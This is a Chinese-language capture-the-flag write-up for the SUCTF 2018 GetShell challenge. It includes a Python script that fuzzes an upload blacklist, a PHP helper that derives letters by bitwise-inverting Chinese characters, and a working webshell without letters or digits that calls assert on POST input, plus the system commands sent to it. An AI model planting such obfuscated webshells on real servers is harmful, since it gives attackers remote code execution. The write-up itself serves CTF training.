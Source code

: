 ```yaml
---
title: '[SUCTF 2018]GetShell'
date: 2024-07-13 16:31:37
tags: rce
categories: 刷题笔记
---
```


## [SUCTF 2018]GetShell（无字母数字rce）

我们打开页面源码，发现源码里有个链接

![image-20240715194012415](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407151940546.png)

我们点击后跳转到了新的页面，并发现了一串代码

<!--more-->

```
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

进行简单的代码审计，意思就是先读取文件中的内容，然后从第五位开始进行黑名单过滤，但我们不知道$black_char里面是什么，所以我们需要进行fuzz

网上找的一个脚本

```
# -*- coding:utf-8 -*-
# Author: m0c1nu7
import requests

def ascii_str():
	str_list=[]
	for i in range(33,127):
		str_list.append(chr(i))
	#print('可显示字符：%s'%str_list)
	return str_list

def upload_post(url):
	str_list = ascii_str()
	for str in str_list:
		header = {
		'Host':'3834350a-887f-4ac1-baa4-954ab830c879.node3.buuoj.cn',
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0',
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
		'Accept-Encoding':'gzip, deflate',
		'Content-Type':'multipart/form-data; boundary=---------------------------339469688437537919752303518127'
		}
		post = '''-----------------------------339469688437537919752303518127
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

12345'''+str+'''
-----------------------------339469688437537919752303518127
Content-Disposition: form-data; name="submit"

提交			
-----------------------------339469688437537919752303518127--'''

		res = requests.post(url,data=post.encode('UTF-8'),headers=header)
		if 'Stored' in res.text:
			print("该字符可以通过:  {0}".format(str))
		else:
			print("过滤字符:  {0}".format(str))
			


if __name__ == '__main__':
	url = 'http://3834350a-887f-4ac1-baa4-954ab830c879.node3.buuoj.cn/index.php?act=upload'
	upload_post(url)

```

测试过后，我们发现`$`、`(`、`)`、`.`、`;`、`=`、`[`、`]`、`_`、`~`，然后就是汉字没有被过滤，所以这题考的是无字母数字rce

我们异或汉字来获取想要的字母，对大量汉字进行`fuzz`测试

```
<?php
//Author: m0c1nu7 
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');

function str_split_unicode($str, $l = 0) {
 
    if ($l > 0) {
        $ret = array();
        $len = mb_strlen($str, "UTF-8");
        for ($i = 0; $i < $len; $i += $l) {
            $ret[] = mb_substr($str, $i, $l, "UTF-8");
        }
        return $ret;
    }
    return preg_split("//u", $str, -1, PREG_SPLIT_NO_EMPTY);
}
 
$s = '你归来是诗离去成词且笑风尘不敢造次我糟糠能食粗衣也认煮酒话桑不敢相思你终会遇见这么一个人他会用整个人生将你精心收藏用漫长岁月把你妥善安放怕什么岁月漫长你心地善良,终会有一人陪你骑马喝酒走四方为你唱一首歌歌中有你亦有我我的泪我的魅将都融入到我的歌声里飘向孤独的你你是否听到了我的歌曲是否也在黯然落泪？岁月匆匆人生漫漫漠视了真情谁是站谁的谁已经变得不重要至少曾经已拥有长相思爱相随时空隔离谁相陪？花前月下心随风相思一片梦成空笑看往事红尘中多少凝思付清秋？长相思泪相随曾经谁是谁的谁？孤星冷月泪盈盈念曾经相逢心长时光短让人垂泪到天明长相思苦相随窗前双燕比翼飞日暮情人成双对于时光无垠的田野中没有早一步也没有晚一步恰好遇见了想要遇见的人这是一段多少美丽而令人心动的尘缘于爱情来说相见恨早会恨晚站会留下梨花带雨的疼痛而于友情来说无论太早或者太迟都是一份值得珍惜的情缘晚秋缓缓走晚了我的轮回疏雨一刻半疏笼起我深深的梦馀昨日遗憾寸寸疏雨挑涸泪烛落笔无处飒晚秋彼晚秋未晚懒我疏雨疏风去归我初心还我清梦唯我在晚秋未晚里守望那疏雨半疏的麦田待下一片梧桐叶复舞我亦拾起我的旧梦旧梦清寒一枕乱我眸中晚秋躞蹀的雨疏疏拍窗我的晚秋疏雨半疏疏开昨日我的梦情缘如海深邃澈蓝干涸成妄谈一湛清湖泪潸然一颦寒眉锁阑珊只为你而欣悦只因你而清泪斑斑你是我的前世吧为何沁泊在我的心怀缱绻起涟波千层驻我心扉知我情怀从此我已习惯你的嘘寒问暖懒倦地痴卧在你的胸怀红霞满腮昨天再苦都要用今天的微笑把它吟咏成一段幸福的记忆；曾经再累都要用当站下的遗忘穿越万道红尘让心波澜不惊人生最大的荣耀不在于从不跌倒而在于每一次跌倒后都能爬起来回忆是件很累的事就像失眠时怎么躺都不对的样子有时候往往直到离开在回忆里才能知道自己有多喜欢一座城';

$arr_str=str_split_unicode($s);

for ($i=0; $i < strlen($s) ; $i++) { 
	echo $arr_str[$i].' ------- '.~$arr_str[$i][1].'<br>';
}
 
 ?>

```

然后构造shell

```
<?php 
$__ = [];
$_ = ($__ == $__);//$_ = 1
$__ = ~(融);
$___ = $__[$_];//a
$__ = ~(匆);
$___ .= $__[$_].$__[$_];//ass
$__ = ~(随);
$___ .= $__[$_];//asse
$__ = ~(千);
$___ .= $__[$_];//asser
$__ = ~(苦);
$___ .= $__[$_];//assert
$____ = ~(~(_));//_
$__ = ~(诗);
$____ .= $__[$_];//_P
$__ = ~(尘);
$____ .= $__[$_];//_PO
$__ = ~(欣);
$____ .= $__[$_];//_POS
$__ = ~(站);
$____ .= $__[$_];//_POST
$_=$$____;//$_POST
$___($_[_]);//assert($_POST[_])

```

记得把注释删去

上传成功后我们访问上传路径，post一个_=phpinfo()

![image-20240715200330194](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152003425.png)

成功执行

输入，得到一个flag，但由于buu的环境问题，这个flag并不是这道题的flag

```
_=system("cd /;ls;cat Th1s_14_f14g");


```

![image-20240715200446559](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152004621.png)

我们访问环境变量，得到这道题的flag

```
_=system(env);
```

![image-20240715200603090](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407152006271.png)
